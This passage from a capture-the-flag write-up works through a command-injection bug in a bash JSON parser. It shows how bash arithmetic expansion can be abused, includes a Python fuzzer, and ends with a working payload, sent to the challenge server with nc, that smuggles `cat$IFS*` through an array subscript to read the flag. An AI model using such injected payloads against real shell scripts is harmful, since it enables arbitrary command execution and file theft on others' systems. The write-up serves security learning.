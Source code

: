 So if we have string prefixed with `task`, the `$suffix` will become the word after it.

Example:

```
{"task abc":""}

$suffix = "abc"

if [[ ""$(("abc" > 0))"" ...
```

This is the most promising injection point, but even the [Indirect Variable References](https://www.tldp.org/LDP/abs/html/ivr.html#IVRREF) is not able to achieve command injection here. With this syntax we can retrieve environment variable at most.

```
{"task PATH":""}

./parser.sh: line 21: /usr/local/bin:/usr/local/sbin:/usr/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl: syntax error: operand expected (error token is "/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl")
```

The `$((suffix > 0 ))`is instriguing. Then I write a simple fuzzer to try to solve it:

```python
#!/usr/bin/env python3
import subprocess
from itertools import product
seed = [
    '"',
    'yes',
    '`yes`',
    '(',
    '$',
    '[',
    ']',
    ')',
    '',
    ':',
    ' ',
    "'",
    "0",
    "1",
    '='
]
for p in product(seed, seed, seed, seed):
    p = ''.join(p)
    if 'yes' not in p:
        continue
    p = '{' + f'"task 1":"task _var_name_{p}","`yes`":"task var_15=13"' + '}'
    print(repr(p))
    s = subprocess.run(['./pprint.sh'], input=p.encode(), capture_output=True)
    print(s)

'''
echo '{"task 1":"task _var_name_yes[`cat$IFS*`]","`cat$IFS*`":"task var_15=13"}' | nc json.bourne.pwni.ng 1337 | grep PCTF
./parser.sh: line 20: PCTF{the_bourne_identity_crisis}
'''
```
